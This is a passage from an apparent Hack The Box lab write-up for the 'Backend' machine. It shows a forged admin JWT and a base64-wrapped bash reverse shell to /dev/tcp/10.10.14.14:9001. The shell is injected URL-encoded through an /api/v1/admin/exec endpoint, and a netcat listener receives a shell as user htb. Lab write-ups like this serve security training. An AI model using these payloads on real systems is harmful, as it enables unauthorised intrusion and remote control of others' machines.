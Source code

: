 ```http
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.nD_DAYky7bKJXhL0V50S7suaJxgcoPuyNQ5D0qCLDzI
Content-Length: 2
```
And now, it works:  
```http
HTTP/1.1 200 OK
date: Wed, 27 Jul 2022 17:24:40 GMT
server: uvicorn
content-length: 5
content-type: application/json
Connection: close

"htb"
```
Now we can build our payload to obtain a shell.  
Since we need to input our payload through the url we cannot use slashes, hence, we'll need to encode our payload with `base64`. Also we cannot use `+` sign because in the url language + means space:  
```shell
[root@kali Backend ]$ echo "bash -i >& /dev/tcp/10.10.14.14/9001 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNC85MDAxIDA+JjEK
[root@kali Backend ]$ echo "bash  -i >& /dev/tcp/10.10.14.14/9001  0>&1" | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQvOTAwMSAgMD4mMQo=
[root@kali Backend ]$ echo "bash  -i >& /dev/tcp/10.10.14.14/9001  0>&1 " | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTQvOTAwMSAgMD4mMSAK
```
Now we can try to execute our payload.  
As discovered, to make this work, we'll need to urlencode all the characters:  
```http
GET /api/v1/admin/exec/%65%63%68%6f%20%27%59%6d%46%7a%61%43%41%67%4c%57%6b%67%50%69%59%67%4c%32%52%6c%64%69%39%30%59%33%41%76%4d%54%41%75%4d%54%41%75%4d%54%51%75%4e%43%38%35%4d%44%41%78%49%43%41%77%50%69%59%78%49%43%41%4b%27%20%7c%20%62%61%73%65%36%34%20%2d%64%20%7c%20%62%61%73%68 HTTP/1.1
Host: 10.10.11.161
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.161/docs
Connection: close
Sec-GPC: 1
Authorization: bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNjU5NjMzMjE5LCJpYXQiOjE2NTg5NDIwMTksInN1YiI6IjEiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.nD_DAYky7bKJXhL0V50S7suaJxgcoPuyNQ5D0qCLDzI
Content-Length: 2
```
and finally, we get a shell as `htb` user:  
```
root@kali:~/Documents/HTB/Boxes/Backend# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.161] 38502
bash: cannot set terminal process group (669): Inappropriate ioctl for device
bash: no job control in this shell
htb@Backend:~/uhc$ id
id
uid=1000(htb) gid=1000(htb) groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```
